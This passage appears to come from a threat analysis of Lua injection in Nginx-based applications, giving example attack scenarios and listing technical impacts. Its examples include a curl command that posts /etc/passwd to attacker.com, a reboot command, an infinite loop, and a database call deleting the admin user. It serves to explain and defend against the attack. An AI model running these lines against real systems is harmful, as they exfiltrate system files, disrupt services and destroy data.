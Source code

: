 **Example Attack Scenarios:**

*   **Data Exfiltration:** Injecting code to read sensitive files (e.g., configuration files, database credentials) and send them to an attacker-controlled server.
    ```lua
    os.execute('curl -X POST -d "$(cat /etc/passwd)" http://attacker.com/log')
    ```
*   **Remote Command Execution:** Injecting code to execute arbitrary system commands on the server.
    ```lua
    os.execute('reboot')
    ```
*   **Denial of Service (DoS):** Injecting code to consume excessive resources, crash the Nginx worker process, or disrupt application functionality.
    ```lua
    while true do end -- Infinite loop
    ```
*   **Database Manipulation:** Injecting code to bypass application logic and directly interact with the database, potentially modifying or deleting data.
    ```lua
    local db = require("resty.mysql"):new()
    db:connect{host = "...", port = 3306, database = "...", user = "...", password = "..."}
    db:query("DELETE FROM users WHERE username = 'admin'")
    db:close()
    ```
*   **Privilege Escalation (Lateral Movement):**  If the compromised server is part of a larger network, attackers can use Lua Injection as a stepping stone to gain access to other internal systems.

#### 2.3 Technical Impact

The technical impact of a successful Lua Injection attack is **Critical** and can encompass a wide range of severe consequences:

*   **Full Server Compromise:**  Attackers can gain complete control over the server by executing arbitrary system commands, installing backdoors, and creating new user accounts.
*   **Data Breach:**  Sensitive data stored in databases, files, or memory can be accessed, exfiltrated, or manipulated by the attacker. This includes user credentials, personal information, financial data, and proprietary business information.
*   **Data Manipulation:**  Attackers can modify application data, leading to data corruption, incorrect information being presented to users, and potential business disruption.
*   **Denial of Service (DoS):**  Attackers can intentionally crash the application or server, making it unavailable to legitimate users.
*   **Reputation Damage:**  A successful Lua Injection attack and subsequent data breach or service disruption can severely damage the organization's reputation and erode customer trust.
*   **Legal and Regulatory Consequences:**  Data breaches can lead to legal liabilities, fines, and regulatory penalties, especially if sensitive personal data is compromised.
*   **Supply Chain Attacks:** In compromised environments, attackers might use the access to inject malicious code into software updates or dependencies, potentially affecting downstream users.
*   **Lateral Movement and Further Attacks:**  Compromised servers can be used as a launching point for attacks on other internal systems and networks.

#### 2.4 Real-world Examples (Illustrative and Analogous)
